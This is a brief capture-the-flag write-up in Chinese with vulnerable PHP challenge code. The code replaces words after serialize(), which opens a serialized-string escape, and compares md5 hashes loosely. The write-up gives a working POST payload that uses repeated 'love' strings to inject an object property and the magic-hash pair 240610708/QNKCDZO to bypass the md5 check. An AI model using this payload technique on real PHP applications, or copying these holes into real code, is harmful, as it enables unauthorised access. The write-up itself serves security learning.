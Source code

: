 ```php
    $a = $_POST['a'];
    $s = $_POST['s'];
    
    if (isset($y) && isset($a) && isset($s)){
        $m = new Challenges($y,$a,$s);
        $msg = str_replace('fuck', 'fucker', serialize($m));
        $msg = str_replace('love', 'lover',$msg);
        $msg = str_replace('watermelon', 'melon',$msg);            
        $_SESSION['m'] = base64_encode($msg);
    }
    if(isset($_POST['q']) && isset($_POST['r'])){
        if(is_numeric($_POST['q']) && is_string($_POST['r'])
            && md5($_POST['q']) == md5($_POST['r'])){            
            include('message.php');
        }
    }
    highlight_file(__FILE__); 
```

序列化字符逃逸，md5绕过。

```
y=b&a=c&s=lovelovelovelovelovelovelovelovelovelovelovelovelovelovelovelovelovelovelovelovelovelovelovelovelove";s:1:"F";s:7:"destiny";}&q=240610708&r=QNKCDZO
```

```php
<?php
    include_once 'flag.php';
    highlight_file(__FILE__);

    if(isset($_COOKIE['m'])){
        $m = unserialize(base64_decode($_SESSION['m']));
        if($m->F == 'destiny'){
            echo $flag;
        }
    }
```

这里cookie在随便输入一个值。